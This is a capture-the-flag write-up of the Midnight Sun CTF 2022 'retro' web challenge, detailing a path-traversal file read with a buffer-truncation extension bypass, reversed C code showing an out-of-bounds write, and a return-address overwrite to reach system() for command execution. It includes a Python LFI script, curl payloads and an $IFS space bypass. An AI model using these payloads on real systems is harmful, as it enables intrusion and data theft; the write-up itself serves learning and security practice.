

#  Introduction to the webpage

This is an interesting challenge developed by `Steven` that has 12 solves in Midnight Sun CTF 2022. We are given a webpage which is based on CGI scripts, we suppose that's why the chall is called `retro`.

The web-source shows different CGI files, they may look useless at first glance...

The environment is set up as follows:
- We don't have ability to upload files
- It doesn't have a database
- The data isn't saved anywhere server-side and there are no cookies.

The webpage looks like this:


The source code reveals the CGI files:

```html
<html>

<frameset rows="30%,60%,10%">
    <frame src="title.html" />

    <frameset cols="50%,50%">
        <frameset rows="50%,50%">
            <frame src="/cgi-bin/color.cgi" />
            <frame src="/cgi-bin/madlib.cgi" />
        </frameset>
        <frame src="/cgi-bin/lorem.cgi" />
    </frameset>
    <frameset cols="70%,30%">
        <frame src="/cgi-bin/joke.cgi" />
        <frame src="/cgi-bin/counter.cgi" />
    </frameset>
</frameset>

</html>
```

# LFI Discovery

After a brief analysis of the webpage workflow, we discovered that the GIF files are delivered via a function called `showimg.cgi`.

Testing this endpoint, we noticed that we obtain the same output with the following different requests:

- `/cgi-bin/showimg.cgi?0.gif`
- `/cgi-bin/showimg.cgi?./././9.gif`
- `/cgi-bin/showimg.cgi?../data/9.gif`

This means that the endpoint is vulnerable against Local File Inclusion.
In the other hand, if we ask for some non existent file or directory, we'll receive an error indicating that the requested path doesn't exist. In addition, if we request a file that is not a `.gif` terminated, the webpage tells us `"ERROR: must be a .gif file"`.


# LFI extension bypass

With furthermore testing of the CGI file, we were able to discover a way to bypass the extension restriction.

The points we came across with the testing is the following one:

- The user request is stored in a large buffer
- The extension comparison is successfully checked with this buffer
- The request is formatted into a smaller buffer so the exceeded characters are not included.
- If we exploit the buffer size differences, with correct length, final path may be clean of the mandatory `.gif` extension so we're able to get any file in the server independent to the extension.

The proof of concept payload ended up being:

`/cgi-bin/showimg.cgi/?../data//////////////////////////////////////////////////////////////////////////////////////////9.gif/.gif`

With the following payload, we knew the payload size had to be 107 bytes long. The payload generation can be done as follows:

```python
import requests
URL = "http://retro-01.hfsc.tf:8080/cgi-bin/showimg.cgi?"
def getfile(path):
    payload = ("/"*(107-len(path) - 5) + path + '/.gif')
    r = requests.get(URL + payload)
    return r.text

while True:
    print(getfile(input("File to get: ")))
```

We spent a lot of time searching flags in dumb directories (`/tmp/flag` -> `Pick a better filename`). Later on, we decided to download and analyze the web-server CGI files for vulns.

The script which downloads everything can be executed as follows:
```
curl http://retro-01.hfsc.tf:8080/cgi-bin/showimg.cgi\?/////////////////////////////////////////////////../../../../../../usr/local/apache2/cgi-bin/color.cgi/.gif -o color.cgi
curl http://retro-01.hfsc.tf:8080/cgi-bin/showimg.cgi\?////////////////////////////////////////////////../../../../../../usr/local/apache2/cgi-bin/madlib.cgi/.gif -o madlib.cgi
curl http://retro-01.hfsc.tf:8080/cgi-bin/showimg.cgi\?/////////////////////////////////////////////////../../../../../../usr/local/apache2/cgi-bin/lorem.cgi/.gif -o lorem.cgi
curl http://retro-01.hfsc.tf:8080/cgi-bin/showimg.cgi\?//////////////////////////////////////////////////../../../../../../usr/local/apache2/cgi-bin/joke.cgi/.gif -o joke.cgi
curl http://retro-01.hfsc.tf:8080/cgi-bin/showimg.cgi\?///////////////////////////////////////////////../../../../../../usr/local/apache2/cgi-bin/counter.cgi/.gif -o counter.cgi
```

# Analysis of CGI files

The files are 32-bit executables, which are interpreted with `musl` and easily reversible with `ghydra`. `madlib.cgi` caught our attention, because it made `system()` call after some "DEBUG" conditions were met.

The next piece of code is what we talk about:

```c
void main()

{
  char *query_string;
  char buf [100];
  int local_14;
  
  local_10 = &stack0x00000004;
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  alarm(5);
  puts("Content-type: text/html\n");
  puts("<html><body background=\"/bg.jpg\">");
  printf("<h1>Mad Lib generator</h1>");
  query_string = getenv("QUERY_STRING");
  if ((query_string == (char *)0x0) || (*query_string == '\0')) {
    puts(
        "<form><table border=0><tr><td><label for=\"adj\">Adjective</label></td><td><input type=\"te xt\" id=\"adj\" name=\"adj\" value=\"Old\"></td></tr><tr><td><label for=\"noun\">Noun</label ></td><td><input type=\"text\" id=\"noun\" name=\"noun\" value=\"Farm\"></td></tr><tr><td><l abel for=\"animal\">Animal</label></td><td><input type=\"text\" id=\"animal\" name=\"animal\ " value=\"Cow\"></td></tr><tr><td><label for=\"noise\">Noise</label></td><td><input type=\"t ext\" id=\"noise\" name=\"noise\" value=\"Moo\"></td></tr><tr><td></td><td><input type=submit></td></tr></table></form>"
        );
  }
  else {
    format_string(query_string);  // Vulnerable function
    printf("<a href=\"/cgi-bin/madlib.cgi\">Go back</a>");
  }
  query_string = getenv("DEBUG");
  if (query_string != (char *)0x0) {
    query_string = getenv("DEBUG");
    snprintf(buf,100,"echo \"[DBG] %s\" >> /opt/logfile",query_string);
    system(buf);
    puts("<!-- [DEBUG ACTIVE] -->");
  }

  return;
}
```

If we controlled the execution flow we could `jump` into `system()` executing arbitrary code (RCE), but for that we need to previously have under control the buffer that contains the parameters it'll execute.

Fortunately, the handler of the `QUERY_STRING` has a vulnerability in the `fix` parameter that allows us to write bytes into the stack out of bounds. Furthermore, we can abuse this vulnerability in a way to overwrite the last byte of the original return address and pointing it to the `system()` function instead of the original return address. In addition, `QUERY_STRING` is already under control, so the RCE is trivial.

The part of the vulnerable code:

```c
status = strncmp(query_string,"fix",3);
if (status == 0) {
  write_ptr = query_string + 3;
  write_value = strchr(write_ptr,0x3d);
  if (write_value != (char *)0x0) {
    local_228 = pcVar2 + 1;
    *pcVar2 = '\0';
    write_ptr = (char *)url_decode(write_ptr);
    local_228 = (char *)url_decode(write_value);
    write_ptr = atoi(write_ptr);
    write_value = atoi(write_value);
    buf[write_ptr] = (char)write_value;  // Relative write
  }
}
```

# Exploiting madlib.cgi and gaining remote code execution

The offset needed to overwrite the return address, starting from the base of the user's input buffer, is 544 bytes. So we are ready to override the last byte of the original return address in offset 544 (0x2b) with the value 133 (0x85) in order to jump to `system()` and execute the command stored in the users input buffer `QUERY_STRING`. 

For example we can execute `whoami` command with this payload:

`GET /cgi-bin/madlib.cgi?whoami>/tmp/solve&fix544=133 HTTP/1.1`

Notice that the command's output is redirected to a file because the `stdout` of `system` command is not directly visible in the response. So we need to use the LFI to check the output.

# Getting the Flag

We encountered another problem during the flag search, the space character was not interpreted correctly and we couldn't execute any commands containing spaces. The easiest way to bypass this limitation is to replace spaces with `$IFS` system variable, which by default, is declared to space.

In the root directory we can find a `showflag` binary, we execute it and... PROFIT!

Our final payload is:

```
# Execute /showflag and redirect the output to /tmp/solve
curl "http://retro-01.hfsc.tf:8080/cgi-bin/madlib.cgi?/showflag>/tmp/solve&fix544=133" 

# Use LFI to read the previously executed commands output 
curl "http://retro-01.hfsc.tf:8080/cgi-bin/showimg.cgi?///////////////////////////////////////////////////////////////////////////../../../../../../tmp/solve/.gif"

# midnight{ebb1d7808ec033c2fc0cba0829863b66}
```
